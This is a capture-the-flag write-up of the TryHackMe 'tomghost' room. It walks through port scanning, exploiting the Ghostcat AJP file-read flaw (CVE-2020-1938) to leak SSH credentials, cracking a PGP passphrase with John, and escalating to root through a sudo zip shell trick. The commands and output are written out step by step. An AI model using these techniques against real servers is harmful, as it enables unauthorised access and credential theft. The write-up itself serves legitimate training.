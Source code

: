```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . tomghost
# DESCRIPTION       . Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/tomghost
```

```bash
sudo nmap -sSVC -T5 10.10.129.164 -p- -oN tomghost
```

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3c89f0b6ac5fe95540be9e3ba93db7c (RSA)
|   256 dd1a09f59963a3430d2d90d8e3e11fb9 (ECDSA)
|_  256 48d1301b386cc653ea3081805d0cf105 (ED25519)

53/tcp   open  tcpwrapped

8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- The webserver is running the default installation on Apache Tomcat 9.0.30 and it seems that we don't have access to `/manager` page.

```
By default the Manager is only accessible from a browser running on the same machine as Tomcat. If you wish to modify this restriction, you'll need to edit the Manager's context.xml file. 
```

- I had no idea what AJP is, and after a bit of research, here's what I found.

- AJP is a protocol that allows a standalone webserver (eg: apache) talk to Tomcat. 
  
- This communication, by default, is done on port 8009, which we see it is already open on our target. 

- Tomcat 9.0.30 (what we have installed) can be vulnerable to what's called `Ghostcat` - LFI vulnerability, somewhat restricted, that allows files from a certain path to be pulled. 

- Depending on the server setup, this might be enough to leak credentials or other sensitive information. 

- And here's the exploit: [CVE-2020-1938](https://nvd.nist.gov/vuln/detail/CVE-2020-1938)

- This worked out of the box, except with few code modifications. I had to replace

```python
self.stream = self.socket.makefile("rb", bufsize=0)

with

self.stream = self.socket.makefile("rb")

and 

print("".join([d.data for d in data]))

with 

print("".join([d.data.decode('utf-8') for d in data if d.data]))
```

- After this, I ran the script as `python3 exploit.py IP`

```
Getting resource at ajp13://10.10.129.164:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:{redacted}
  </description>

</web-app>
```

- We got our credentials :) SSH in to the box.

```
Sorry, user skyfuck may not run sudo on ubuntu.
```

```
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

- All we had to do is to import the key and decrypt the `.pgp` file.

```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp 
```

- But...

```
You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
```

- We need to call Mr. John for some expertise here, so let's copy the files to our local machine. I've used `scp` from my host

```
scp skyfuck@10.10.129.164:/home/skyfuck/credential.pgp credential.pgp
scp skyfuck@10.10.129.164:/home/skyfuck/tryhackme.asc tryhackme.asc
```

- Then, I've used `/opt/john/run/gpg2john tryhackme.asc > crack`

- And then `/opt/john/run/john crack` ; Passphase is `alexandru`.

- Back to our compromised box, running `pgp --decrypt credential.pgp` reveals the credentials for user `merlin`

```
merlin:{redacted}
```

- Merlin is able to run `/usr/bin/zip` as root.

```
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

- This can be used to spawn a root shell. 

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

- The last flag is in `/root/root.txt`
